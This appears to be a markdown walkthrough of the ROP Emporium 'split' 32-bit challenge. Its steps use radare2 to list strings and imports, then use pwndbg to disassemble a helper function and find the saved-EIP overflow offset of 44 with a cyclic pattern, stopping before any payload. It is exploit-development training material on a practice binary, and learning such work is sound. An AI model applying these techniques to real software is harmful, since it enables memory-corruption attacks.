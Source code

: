 [Challenge]: https://ropemporium.com/challenge/split.html
[Pwndbg]: https://github.com/pwndbg/pwndbg
[Video Walkthrough]: https://www.youtube.com/watch?v=D4J5r9NaRCI
[Write Up]: https://int0x33.medium.com/day-3-rop-emporium-split-64bit-338b5edccf1a
>   1. $ sudo apt install radare2
>   2. See strings:
>       $ rabin2 -z split32
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```
>   3. See imported symbols from libraries
>       $ rabin2 -i split32
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x080483b0 GLOBAL FUNC       read
2   0x080483c0 GLOBAL FUNC       printf
3   0x080483d0 GLOBAL FUNC       puts
4   0x080483e0 GLOBAL FUNC       system
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x080483f0 GLOBAL FUNC       __libc_start_main
7   0x08048400 GLOBAL FUNC       setvbuf
8   0x08048410 GLOBAL FUNC       memset
```
>   4. `gdb split32`
>   5. pwndbg> disassemble usefulFunction
```
Dump of assembler code for function usefulFunction:
   0x0804860c <+0>:	push   ebp
   0x0804860d <+1>:	mov    ebp,esp
   0x0804860f <+3>:	sub    esp,0x8
   0x08048612 <+6>:	sub    esp,0xc
   0x08048615 <+9>:	push   0x804870e
   0x0804861a <+14>:	call   0x80483e0 <system@plt>
   0x0804861f <+19>:	add    esp,0x10
   0x08048622 <+22>:	nop
   0x08048623 <+23>:	leave
   0x08048624 <+24>:	ret
End of assembler dump.
```
>   6. pwndbg> b main
>   7. pwndbg> run
>   8. pwndbg> search /bin/cat
>   9. pwndbg> cyclic 100
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
>   10. pwndbg> c
>   11. Paste the output from step 9
>   12. See the EIP register
```
*EIP  0x6161616c ('laaa')
```
>   13. pwndbg> cyclic -l laaa
```
44
```
> 
